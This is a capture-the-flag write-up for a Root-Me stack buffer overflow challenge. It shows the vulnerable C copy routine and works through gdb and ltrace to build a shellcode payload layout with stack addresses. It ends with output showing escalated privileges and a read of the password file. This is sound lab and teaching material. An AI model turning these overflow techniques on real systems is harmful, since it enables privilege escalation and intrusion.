 # ELF x86 - Stack buffer overflow basic 5
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-5
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch10@challenge02.root-me.org   
Username	app-systeme-ch10
Password	app-systeme-ch10
```
According to the source code, the program requires a file's path. The file (which the path to it was given) need to contain "USERNAME=" as the first 9 bytes, and then the program will accept any 503 bytes.<br>
Then it will copy the bytes into a buffer of 128 bytes long.<br>
The vulnerable code in the function is:
```c
void cpstr(char *dst, const char *src)
{
  for(; *src; src++, dst++)
  {
    *dst = *src;
  }
  *dst = 0;
}
[...snip...]
cpstr(init.username, buff+9);
```
As you may see, there is no boundary check. Therefore an attacker can overflow the **init.username** buffer with 503 bytes at most, which will cause 375 bytes after the **init.username** to be overwritten.
Let's take a look at the **Init** struct:
```c
struct Init
{
  char username[128];
  uid_t uid;
  pid_t pid;  
};
```
The layout of the struct is pretty basic. The **Init.username** is 128, the **uid** is 4 bytes and the **pid** is 4 bytes. So in order to overflow the struct, more than 136 bytes are needed.<br>
In addition to the above, before the **Init** struct initialization there is a local **FILE *** variable. It's important to keep it the same, so _fclose_ function at line 64 when throw a signal.<br>
A quick debugging (in gdb) or a quick look at ltrace, one can see that the file pointer is 0x804b008:
```sh
app-systeme-ch10@challenge02:~$ python -c "print 'USERNAME=' + 'A'*136 + '\x08\xb0\x04\x08' + 'DDDD'" > /tmp/badfile
app-systeme-ch10@challenge02:~$ ltrace ./ch10 /tmp/badfile
__libc_start_main(0x80486bc, 2, 0xbffffc34, 0x8048770 <unfinished ...>
fopen("/tmp/badfile", "r")                                                                                                    = 0x804b008
getpid()                                                                                                                      = 27277
getuid()                                                                                                                      = 1110
fgets("USERNAME=AAAAAAAAAAAAAAAAAAAAAAA"..., 512, 0x804b008)                                                                  = 0xbffff793
fgets(nil, 512, 0x804b008)    <============================== right here                                                                                          
fclose(0x804b008)                                                                                                             = 0
printf("[+] Runing the program with user"..., "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 1094795585, 1094795585[+] Runing the program with username AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp�������, uid 1094795585 and pid 1094795585.
)                  = 222
```
As one may see, it's not enough. Let's take a quick look at the _Init_ function's epilogue:
```asm
   0x080486b5 <+268>:	pop    ebx
   0x080486b6 <+269>:	pop    esi
   0x080486b7 <+270>:	pop    edi
   0x080486b8 <+271>:	pop    ebp
   0x080486b9 <+272>:	ret    0x4
```
The function doesn't just return. It returns and "deletes" the value after the return address. So, the _Init_ return value is at **ebp+8**.<br>
According to the source code, the return value is the **Init** struct. So, let's try not to mess it up.<br>
Basically, the exploit layout should look like the following:
```
    +-----------+-----------------------+-------------------+--------------------+------------------+---------------------+------------------+
    | USERNAME= | 28 bytes of SHELLCODE | 108 bytes of JUNK | FILE *file address | 28 bytes of JUNK | SHELLCODE's address | Address of EBP+8 |
    +-----------+-----------------------+-------------------+--------------------+------------------+---------------------+------------------+
```
Let's find the addresses using gdb:
```gdb
app-systeme-ch10@challenge02:~$ bash /tmp/r.sh gdb
(gdb) file ./ch10
Reading symbols from ./ch10...done.
(gdb) break *0x08048663
Breakpoint 1 at 0x8048663: file binary10.c, line 61.
(gdb) run /tmp/badfile
Starting program: /challenge/app-systeme/ch10/ch10 /tmp/badfile

Breakpoint 1, 0x08048663 in Init (filename=0xbffffe38 "/tmp/badfile") at binary10.c:61
61	binary10.c: No such file or directory.
(gdb) p &buff
$1 = (char (*)[513]) 0xbffff873
(gdb) x $ebp+8
0xbffffb20:	0xbffffb30
```
So adding those addresses to the exploit will result in the following output:
```sh
$ id
uid=1110(app-systeme-ch10) gid=1110(app-systeme-ch10) euid=1210(app-systeme-ch10-cracked) groups=1210(app-systeme-ch10-cracked),100(users),1110(app-systeme-ch10)
$ cat .passwd
<censored>
```
